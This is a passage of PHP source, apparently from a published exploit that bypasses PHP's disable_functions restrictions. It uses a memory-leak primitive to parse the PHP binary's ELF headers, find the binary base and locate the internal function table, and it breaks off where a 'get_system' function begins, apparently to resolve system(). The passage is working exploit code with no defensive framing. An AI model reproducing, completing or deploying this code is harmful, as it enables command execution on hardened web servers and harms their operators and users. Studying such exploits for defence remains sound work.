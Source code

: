 ```php

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
```